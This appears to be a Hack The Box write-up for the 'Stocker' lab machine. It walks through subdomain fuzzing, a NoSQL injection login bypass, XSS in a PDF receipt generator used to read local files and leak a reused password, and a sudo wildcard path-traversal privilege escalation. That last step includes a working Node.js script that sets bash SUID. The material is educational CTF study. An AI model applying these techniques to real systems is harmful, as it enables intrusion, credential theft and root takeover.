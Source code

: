 ![stocker](Stocker.png)
# Summary
[Stocker](https://app.hackthebox.com/machines/Stocker) starts off with fuzzing for subdomains to find a login page vulnerable to NoSQL injection. After bypassing login I am taken an in-development storefront. The purchase receipts are generated by converting json into a pdf, and the process is vulnerable to Cross Site Scripting. I then use the XSS to leak a cleartext password that was reused for SSH. Once on the box, a misconfiguration in the `sudo` rules allows me to write a malicious javascript file to gain root access. 
# Nmap
First things first I start off with an `nmap` scan. I use `-sC` to run the default scripts, and `-sV` to enumerate versions.
```
┌──(kali㉿Kali)──[13:22:19]──[~/htb/Machines/Stocker]
└─$ sudo nmap -sC -sV -p 22,80 $IP                 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Stock - Coming Soon!
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-generator: Eleventy v2.0.0
|_http-favicon: Unknown favicon MD5: 4EB67963EC58BC699F15F80BBE1D91CC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This reveals only 2 ports open, SSH on port 22, and HTTP running `nginx` on port 80.
## HTTP > NoSQL Injection
Poking around on the main `stocker.htb` doesn't reveal much. I decide to do some fuzzing to discover any other subdomains. This reveals the `dev` subdomain. I add this to my `/etc/hosts` file and browse to it, and find a log in page.
```bash
┌──(kali㉿Kali)──[13:27:24]──[~/htb/Machines/Stocker]
└─$ ffuf -u http://stocker.htb -H 'Host: FUZZ.stocker.htb' -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -fs 178

        /'___\  /'___\           /''_\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.stocker.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 99ms]
:: Progress: [19966/19966] :: Job [1/1] :: 422 req/sec :: Duration: [0:00:53] :: Errors: 0 ::
```

![dev](Wed-10-2024_13-28.png)

 I pass the log in request to repeater in Burpsuite. I try some common credentials, and basic SQL injection, none of which work. I decide to see if I can do some funny business by changing the POST data type to JSON. This works and it seems like the login is still accepted and processed. Next I try NoSQL injection, which gets me in. The way this NoSQL injection works is that I'm using the "not equal" ($ne) operator to tell the server that if the username is *not equal* to to "fakeuser" and the password is *not equal* to "fakepass", then let me in. Obviously, there is no user in the database with those credentials, and I get access.

![NoSQL](Wed-10-2024_13-34.png)

I'm taken to what looks to be an in-development storefront.

![stock](Wed-10-2024_13-35.png)
## XSS & File Read
Once logged in to the site I can add items to my cart and then check out. Upon check out a pdf receipt is created. 

![reciept](Wed-10-2024_14-01.png)

Intercepting this in Burp reveals a POST request with a json body containing info about the purchase. This info is evidently then used to create said PDF.

![burp](Wed-10-2024_14-02.png)

After doing some testing on the various parameters, I discover that the `title` field is vulnerable to XSS injection. 

![xss confirm](Wed-10-2024_14-10.png)

This can be used to read files and to access external networks. 

![passwd](Wed-10-2024_14-12.png)

The root of the webapp can be found by either sending bad `json` or by using `<script>document.write(JSON.stringify(window.location))</script>`.

Bad JSON:
![bad json](Wed-10-2024_14-13.png)

I know the root directory, and that the site is running `Node.js`, meaning likely the `index` file will be written in `javascipt`. I try to read `/var/www/dev/index.js`, however, the space allocated to loading this file only reveals the first few lines. I need a way to see the whole file.

![too short](Wed-10-2024_14-17.png)

I can circumvent this problem by loading the file in an iframe. Iframe essentially loads another site or file within the current site or file. I can change the size of the `iframe` window with `height=<x> width=<y>`. Making the `iframe` window bigger, I again load `index.js` which reveals creds to `MongoDB` in cleartext. 

![mongodb](Wed-10-2024_14-18.png)

I get a valid username from `/etc/passwd` and use this password for SSH and I get in!
## Root Shell
`Angoose` can run `/usr/bin/node /usr/local/scripts/*.js` as sudo. The `/usr/local/scripts` directory is not writeable. However, the wild card means I can put anything there and the sudo will be valid. This means I can do some directory traversal! 

All I have to do is write a javascript somewhere on the system, for example `/dev/shm/exploit.js` and then traverse directories to get there. I just had to find out how to use system commands in java cript. I found this article that explained it perfectly and even had a working script on it. https://stackabuse.com/executing-shell-commands-with-node-js/

I just changed the command in the script to make `/usr/bin/bash` an SUID binary, ran the sudo line, and then `/usr/bin/bash -p`. I write the malicious javascript into `/dev/shm`.
```javascript
const { exec } = require("child_process");

exec("chmod +s /usr/bin/bash", (error, stdout, stderr) => {
    if (error) {
        console.log(`error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.log(`stderr: ${stderr}`);
        return;
    }
    console.log(`stdout: ${stdout}`);
});
```
I then execute the scrript with sudo, run the now SUID bash binary, and become root!
```bash
sudo /usr/bin/node /usr/local/scripts/../../../dev/shm/exploit.js # Execute malicious javascript
ls -la /usr/bin/bash -p # Make sure it worked
/usr/bin/bash -p # Become Root